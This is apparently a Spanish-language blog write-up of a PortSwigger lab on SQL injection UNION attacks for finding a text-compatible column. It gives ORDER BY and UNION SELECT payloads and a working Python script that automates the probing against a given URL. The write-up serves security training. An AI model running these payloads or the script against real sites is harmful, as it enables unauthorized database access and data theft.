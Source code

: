 ```yaml
---
title: "04 SQL injection UNION attack, finding a column containing text"
collection: publications
category: portswigger
permalink: publications/SQLi/04_SQL injection UNION attack, finding a column containing text
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Para resolver el laboratorio, realizamos un ataque de inyección SQL que devuelve una fila adicional que contiene el valor proporcionado. Esta técnica nos ayuda a determinar qué columnas son compatibles con datos de cadena.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, finding a column containing text'
---
```


![logo]({{site.url}}/images/SQLi/sqli-4/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-4/descripcion.png)

## Objetivo del laboratorio

Realizar un ataque de inyección SQL UNION que devuelva una fila adicional que contenga el valor proporcionado. Esta técnica le ayudará a determinar qué columnas son compatibles con datos de cadena.

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 3 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Columnas]({{site.url}}/images/SQLi/sqli-4/columnas.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL, NULL--
' UNION SELECT NULL, 'A', NULL--
' UNION SELECT NULL, NULL, 'A'--
```

Como se observa el campo 2 es inyectable.

![Inyectable]({{site.url}}/images/SQLi/sqli-4/valor string.png)

Ahora procedemos a ingresar el valor que nos proporciona la plataforma a inyectar y poder completar el laboratorio

![Inyectable 2]({{site.url}}/images/SQLi/sqli-4/valor string 2.png)

```javascript
' UNION SELECT NULL, '7niuyJ', NULL--
```

![Inyectable]({{site.url}}/images/SQLi/sqli-4/Resuelto.png)

# Codigo Python
```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "/filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i -1
        i = i + 1
    return False

def exploit_sqli_string_field(url, num_col):
    path = "/filter?category=Gifts"
    for i in range(1, num_col+1):
        string = "'92xeVZ'"
        payload_list = ['null'] * num_col
        payload_list[i-1] = string
        sql_payload = "' union select " + ','.join(payload_list) + "--"
        r = requests.get(url +path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if string.strip('\'') in res:
            return i
    return False

if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print('[-] Usage: %s <url>' % sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...") 
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print("[+] The number of columns is " + str(num_col) + ".")
        print("[+] Figuring out which column contains text...")
        string_column = exploit_sqli_string_field(url, num_col)
        if string_column:
            print("[+] The column that contains text is " + str(string_column)+".")
        else: 
            print("[-] We were not able to find a colimn that has a string data type.")
    else:
        print("[-] The SQLi attack was not successful.")
```
